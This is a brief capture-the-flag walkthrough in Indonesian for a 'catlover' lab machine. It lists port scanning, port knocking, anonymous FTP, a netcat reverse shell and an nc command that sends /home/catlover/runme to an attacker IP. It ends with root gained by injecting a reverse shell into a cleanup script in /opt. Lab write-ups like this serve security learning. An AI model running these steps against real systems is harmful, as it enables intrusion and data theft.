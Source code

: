 # boot:
1. scan port 21 22 8080 buat http nya kebuka ada port docker port ftp gabisa di masukin
2. fuzz ada /feed ->  cek aja ada isinya xml -> cek source code ada katanya knock knock 1111 2222 3333 4444
3. pake knockd -> knock ip port port port port -v -> abis itu nmap lagi aja nanti ada port baru terus ftp nya jadi open
4. cek di ftp Anonymous -> get namafile -> ada catatan katanya ada port lain yang perlu di masukin
5. nc ip portyangdisuruh -> revshell mkfifo aja disitu pake nc lain
6. explore file nanti ada file -> nyalain nc port > namafile -> di mesin target gini: nc 10.17.45.126 6060 < /home/catlover/runme
7. file runme -> strings runme -> run runme di mesin target -> ./runme -> dia butuh passwd di strings runme ada tuh passwd rebeca nya
8. nanti muncul id_rsa disitu pake aja -> ssh pake itu ke catlover


# rootflag:
1. ls /opt tuh ada /clean masuk aja baca dia nge rf
2. revshell bash disitu -> echo "revshell" nyalain nc
3. klaim root

